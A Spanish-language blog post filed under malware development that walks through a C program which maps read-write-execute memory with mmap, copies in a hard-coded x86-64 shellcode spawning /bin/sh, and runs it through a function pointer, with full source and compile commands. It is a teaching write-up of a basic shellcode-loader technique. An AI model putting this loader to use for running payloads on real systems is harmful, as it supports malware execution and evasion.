 ```yaml
---
layout: post
title: Inyeccion de shellcodes usando la syscall mmap
author: c4rta
date: 2023-06-10
banner:
  image: "./assets/images/home/home-t.png"
  opacity: 0.618
  background: "#000"
  height: "50vh"
  min_height: "50vh"
  heading_style: "font-size: 2.25em; font-weight: bold; "
  subheading_style: "color: gold"
categories: [MalDev]
tags: []
---
```

Desarrollaremos un programa en C el cual inyectara una shellcode usando la syscall mmap()
{:.lead}

## mmap

mmap es una syscall y una funcion incorporada en el header ```sys/mman.h``` la cual permite asignar o mapear memoria dentro del espacio de direcciones virtuales de un proceso, mmap regresa un puntero void (void *), la estructura es:

```c
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
```

- **void *addr**: Es la direccion desde donde se va a asignar la memoria, esta direccion se la podemos asignar manualmente, o en todo caso de que le pogamos ```NULL```, le estamos diciendo al kernel que asigne la memoria, regularmente  la asigna a direcciones cercanas pero mayores a ```/proc/sys/vm/mmap_min_addr```

- **size_t length**: Es la longitud en bytes de la memoria que se va a asignar

- **int prot**: Se refiera a con que protecciones vamos a asignar la memoria, hay varias
  - PROT_EXEC: La memoria es ejecutable
  - PROT_READ: La memoria tiene permisos de lectura
  - PROT_WRIT: La memoria tiene permisos de escritura

- **int flags**: Determina si las actualizaciones de la memoria, son visibles para otras asignaciones de memoria dentro de la misma region de la memoria, existe muchas flags, asi que puedes leer cada una de ellas [aqui](https://man7.org/linux/man-pages/man2/mmap.2.html).

- **int fd**: Es el descriptor de archivos el cual sera asginado

- **off_t offset**: Es el desplazamiento desde donde se va a asignar la memoria

Una vez sabiendo eso ya podemos comenzar a tirar codigo

## Desarrollo del programa

Primero debemos de empezar a declarar nuestra shellcode como una cadena de caracteres de esta manera:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05";
```
La shellcode ejecutara un /bin/sh

Dentro de una funcion, empezare a declarar todo el codigo de la inyeccion, primero debemos sacar el tamaño en bytes de la shellcode, ya que es uno de los argumentos que recibe **mmap**

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;
}
```
Observa que se le esta agregando un ```- 1```, esto es para quitarle el byte nulo.

Despues haremos el llamado a ```mmap```:

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
}
```

La direccion donde se va a asignar la memoria es ```NULL``` para que el kernel la elija, el tamaño de la memoria a asignar es el tamaño de la shellcode, en las flag le decimos que la memoria se asigne con permisos de lectura, escritura, y ejecucion, con el ```-1``` le estamos diciendo al descriptor de archivos que no se requiere un archivo ya existente y que solo asigne memoria, y te podras dar cuenta de algo, estamos usando la flag ```MAP_ANONYMOUS + MAP_PRIVATE```, con esas flags le estamos indicando que la asignacion sera simplemente un bloque de memoria en ceros (por eso mismo el offset es 0), la cual estara lista de usar, ademas de ser privada, es decir, estara excluida de otras asignaciones de memoria dentro de la misma region de memoria

Aqui dibuje un diagrama de la asgnacion de memoria con mmap tomando en cuenta el ejemplo

![](/assets/img/mmap_injection/mmap.jpeg)

Lo que se ve a la izquierda es la memoria virtual de un proceso (sin entrar tanto en detalle), te podras dar cuenta que la memoria de la shellcode se asigno dentro de una seccion que se llama ```Memory Mapping```, en esta seccion se asigna memoria para las librerias compartidas y dinamicas, ademas de las asignaciones de ```mmap```, pero ojo, para que una asignacion de ```mmap``` recida en esta seccion, debe de ir con la flag ```MAP_ANONYMOUS```.

Resumidamente el diagrama seria algo asi:

- Usamos ```sizeof()``` para obtener el tamaño de la shellcode y lo guardamos en ```tam_shellcode```
- Asignamos memoria con ```mmap``` donde el tamaño es lo que tiene ```tam_shellcode``` (22 bytes)
- Usamos ```MAP_ANONYMOUS``` para indicarle que la asignacion se haga dentro de la seccion ```Memory Mapping```,

una vez que asignamos memoria para la shellcode, debemos de copiar la shellcode en esa memoria, eso lo hacemos con ```memcpy```, memcpy se usa para copiar cierta cantidad de bytes desde un origen a un destino.

```c
memcpy(shellcode_mem, shellcode, tam_shellcode);
```

En nuestro ejemplo le estamos diciendo que copie 22 bytes (tam_shellcode) del origen (shellcode), hacia la memoria que asignamos (shellcode_mem), y con esta operacion, nuestra shellcode ya estara escrita en la memoria que asigamos con mmap.

Ahora debemos de invocar a la shellcode, para eso realizamos esto:

```c
void (*shellcode_ptr)() = (void (*)())shellcode_mem;
shellcode_ptr();
```

Primero definimos ```shellcode_ptr``` como un puntero a una funcion, con el fin de asignar a ```shellcode_ptr``` la direccion de memora que contiene ```shellcode_mem``` ya que cabe recordar que ```shellcode_mem``` contiene la direccion de memoria desde donde se asigno la shellcode, que es un tipo void *

Despues con ```void (*)()``` le estamos diciendo que defina un puntero a una funcion que no recibe argumentos ni tampoco retorne nada, esto con el fin de que ```shellcode_mem``` sea interpretado como un puntero hacia esa funcion, entonces a travez de ```shellcode_ptr``` podemos mandar a llamar a ```shellcode_mem```.

Asi que cuando se haga un llamado a ```shellcode_ptr();```, ejecutara lo que esta almacenado en ```shellcode_mem```, lo cual es la shellcode:D

Despues solo queda a mandar a llamar a la funcion ```ejecutar_shellcode()``` desde el main:

```c
int main() {
    ejecutar_shellcode();
    return 0;
}
```

Y el codigo completo queda asi:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"; //bin/sh

void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );

    memcpy(shellcode_mem, shellcode, tam_shellcode);

    printf("Tamaño de la shellcode: %zu bytes\n", tam_shellcode);
    printf("Shellcode asignada desde la direccion: %p\n", shellcode_mem);

        void (*shellcode_ptr)() = (void (*)())shellcode_mem;

        shellcode_ptr();
}

int main() {
    ejecutar_shellcode();
    return 0;
}
```

Solo queda compilar y ejectuar

```
gcc -o inyeccion_mmap inyeccion_mmap.c
./inyeccion_mmap
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/mmap_injection/waifu.gif)